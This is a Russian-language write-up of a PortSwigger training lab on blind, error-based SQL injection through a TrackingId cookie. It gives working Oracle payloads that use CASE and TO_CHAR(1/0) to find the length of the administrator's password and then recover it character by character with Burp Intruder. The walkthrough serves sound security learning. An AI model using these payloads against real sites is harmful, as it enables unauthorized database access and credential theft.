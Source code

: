 ```yaml
---
title: "Blind SQL injection"
date: 2025-06-14T13:37:00-04:00
categories:
  - blog
tags:
  - writeup
  - web
---
```


## Scope

[ссылка на лабу][https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors]

```
https://0ae90054044f120581a76bcc00c300ed.web-security-academy.net/
```

В данной лабе есть уязвимый к [[Blind based SQL injections(SQLi)| Blind based SQL injection]] параметр в `Cookie`.

В БД есть таблицы с именам `users` и колонками `username` и `password`.

Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.
## Notes

Во-первых, из условия известно, что уязвимость находится в `Cookie`, значит есть смысл сразу смотреть `HTTP` запросы.
Во-вторых, известно, что это `Blind Injection`, поэтому будет весело...

И так, возьму `GET`-запрос:

```HTTP
GET /filter?category=Gifts HTTP/2
Host: 0ae90054044f120581a76bcc00c300ed.web-security-academy.net
Cookie: TrackingId=qj7wR5JE68DIePPM; session=sdjSIBQgVY0TIDfdZDJ4oAKTKfz0ZAzb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0af700f20342cbdda9c9b2a200cb0036.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

Скорее всего уязвимым является `TrackingId`. Попробую посмотреть, как изменится ответ, при не верном значении `TrackingId=qj7wR5JE68DIePPM:

```HTTP
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 5267
```

Запрос отработал корректно, попробую добавить кавычку `TrackingId=qj7wR5JE68DIePPM'`:

```HTTP
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2324
```

Значит обрамление для запроса - это одинарная кавычка `'`. Протестирую это:

```
qj7wR5JE68DIePPM' and 1=0-- -Ok
qj7wR5JE68DIePPM' and 1=1-- -OK
```

Оба запроса отработали корректно. Это значит, что обрамление подобрано корректно, но проверка условий не работает. В таком случае можно попробовать [[Error based SubQuery injections(SQLi)|Error based SQL injection]]. Ее идея в том, чтобы вызвать ошибку в запросе, благодаря чему у нас на странице может отобразиться сообщение о ней. Объединив это с оператором `CASE` можно сделать следующий запрос:

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '1' END FROM dual) = '1'-- -Ok
qj7wR5JE68DIePPM' and (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '1' END FROM dual) = '1'-- -Error
```

Запрос работает. Теперь в качестве условия подставлю нужное условие. Попробую узнать длину пароля:

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) < 40 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -Error
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) < 20 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -OK
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) > 20 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -Ok
qj7wR5JE68DIePPM' and (SELECT CASE WHEN LENGTH(password) = 20 THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -Error
```

Я получил ошибку на условии `LENGTH(password) = 20`, значит длина пароля 20 символов. Теперь использую `SUBSTR` для подбора каждого символа со следующим пейлоадом:

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN SUBSTRING(password, 1, 1) = 'a' THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -
```

Для упрощения подбора я используют `Burp Suite Intruder` с атакой `Brute Force`.

```
qj7wR5JE68DIePPM' and (SELECT CASE WHEN SUBSTR(password, 1, 1) = 'a' THEN TO_CHAR(1/0) ELSE '1' END FROM users WHERE username = 'administrator') = '1'-- -
```

Правильная буква будет в том случае, когда на запрос получается ошибка с кодом `500`, поэтому я отфильтровал другие запросы:

![[Pasted image 20250126154704.png]]

После 20 запросов я получил пароль: `h1dqh09pg0e86htryfv9`. Проверю его:

![[Pasted image 20250126155414.png]]

Вообще изи, решил не глядя)
